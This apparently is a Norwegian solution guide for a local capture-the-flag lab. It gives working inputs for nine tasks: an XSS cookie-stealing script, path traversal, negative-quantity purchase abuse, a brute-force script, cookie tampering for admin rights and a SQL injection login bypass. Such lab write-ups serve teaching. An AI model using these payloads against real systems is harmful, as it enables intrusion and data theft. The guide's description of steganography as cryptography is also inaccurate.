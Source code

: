 # Løsningsforslag

## oppgave 1:
For å løse denne må man gjøre et kall til /flag endepunktet som står i API dokumentasjonen. Man kan hente ut API key fra spørringene på /oppgeve1 siden, og legge det til som en header i /flag requesten:

`curl --request GET --url http://localhost:8081/oppgave1/rng/flag --header 'X-Api-Key: f414d481-8f7b-41e5-ab5e-05814bb1f509'`

## oppgave 2:
(oppgave 2 fungerer ikke i WSL)
Denne oppgaven benytter XSS for å få "admin" til å sende en verdi som ligger i cookien sin til kommentar feltet. Vi bygger opp et script som kjører når det lastes, og som henter ut flag fra cookie og legger det til som verdien i kommentaren:

`<script> let  fd = new FormData(); fd.append('user', "asd"); fd.append('comment', JSON.stringify({"asd": document.cookie}));  fetch("http://localhost:8081/oppgave2/comments/create", {     method: 'POST',     body: fd, }); </script>`

## Oppgave3:
I denne oppgaven utnytter vi path traversal til å hente en fil som egentlig ikke skal være tilgjengelig for brukeren. Vi benytter endepunktet for å laste ned instruksjons filen, men modifiserer filbanen til å gå opp i systemet, så til filen der flagget ligger.

http://localhost:8081/oppgave3/download?file=../../../../windows/flag.txt

## Oppgave 4:
Her trenger vi å skaffe penger på serveren. For å gjøre det kan vi kjøpe et negativt flag, som vil gi oss nok penger til å kjøpe et vanlig flag etterpå. Vi finner verdiene til requesten ved å bruke dev tools i browseren.

`curl 'http://localhost:8081/Oppgave4/api/purchase' --data-raw '[{"id":"id1","quantity":-1},{"id":"id2","quantity":0},{"id":"id3","quantity":0}]'`

## Oppgave 5:
Denne oppgaven kan vi løse ved å prøve alle verdier, aka. brute force. Vi kan se hvordan requesten gjhøres ved å bruke dev tools.

(kode fra ChatGPT)
```
async function sendRequest(number) {
    // Format the number with leading zeros (3 digits)
    const formattedNumber = number.toString().padStart(3, '0');

    // Create a FormData object and append the formatted number to it
    const formData = new FormData();
    formData.append('code', formattedNumber);

    // Make the POST request to the server
    const response = await fetch("http://localhost:8081/oppgave5/unlock", {
        method: "POST",
        body: formData
    });

    // Parse the server's response as JSON
    const result = await response.json();
    console.log(`Sent number: ${formattedNumber}, Server response:`, result);

    // Check if the response contains the "error" keyword
    if (!result.hasOwnProperty("error")) {
        console.log("Correct code found! Terminating script.");
        return true; // Return true to indicate success
    }
    return false; // Return false to continue the loop
}

async function countAndSend() {
    for (let i = 0; i < 1000; i++) {
        const success = await sendRequest(i);
        if (success) break; // Terminate if the correct code is found
    }
}

// Start counting and sending requests
countAndSend();
```

## Oppgave 6:
Her har vi ikke noen verifisering av rettigheter på serveren. Det gjør at hvis en bruker endrer verdi i cookie på sin klient så får man adminrettigheter, og tilgang til flagget.

Cookie -> admin: 1

## Oppgave7:
Dette er en tekst som er encodet i base64, man kan lett finne verktøy online, eller bruke f. eks base64 verktøyet fra GNU Coreutils

`echo <tekst> | base64 -d`

## Oppgave8:
Flagget i denne oppgaven er gjemt inne i bytes i bildet. Dette er en type kryptografi som heter steganography, som navnet på bildet hintet om. man kan finne verktøy online for å dekode dette.

Steganography online decrypt (https://futureboy.us/stegano/decinput.html)

## Oppgave9:
Denne oppgaven bruker SQL injection for å logge på serveren. Ved å lage en spørring som returnerer "true" blir man logget på uavhengig av om brukernavn og passord er riktig.

`' OR TRUE --`
